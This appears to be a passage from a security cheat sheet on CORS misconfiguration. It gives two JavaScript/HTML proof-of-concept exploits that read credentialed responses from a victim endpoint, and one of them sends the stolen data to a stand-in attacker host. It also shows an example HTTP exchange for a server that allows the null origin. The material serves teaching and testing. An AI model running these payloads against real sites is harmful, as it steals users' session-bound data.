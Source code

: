 #### Proof of concept

This PoC requires that the respective JS script is hosted at `evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

or 

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

### Vulnerable Example: Null Origin

#### Vulnerable Implementation

It's possible that the server does not reflect the complete `Origin` header but
that the `null` origin is allowed. This would look like this in the server's
response:

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```
